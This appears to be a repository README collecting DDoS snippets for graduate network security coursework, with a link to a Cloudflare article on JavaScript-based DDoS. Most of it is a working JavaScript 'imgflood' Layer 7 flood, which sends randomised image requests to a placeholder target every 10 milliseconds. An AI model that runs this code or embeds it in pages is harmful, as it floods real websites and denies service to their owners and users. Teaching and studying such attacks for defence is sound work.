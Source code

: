 # DDoS
Snippets of code and resources related to DDoS attacks for graduate coursework on network security

## imgflood Layer 7 flood attack
```
function imgflood() {
  var TARGET = 'victim-website.com'
  var URI = '/index.php?'
  var pic = new Image()
  var rand = Math.floor(Math.random() * 1000)
  pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflood, 10)
```
Resources: [An introduction to JavaScript-based DDoS](https://blog.cloudflare.com/an-introduction-to-javascript-based-ddos/)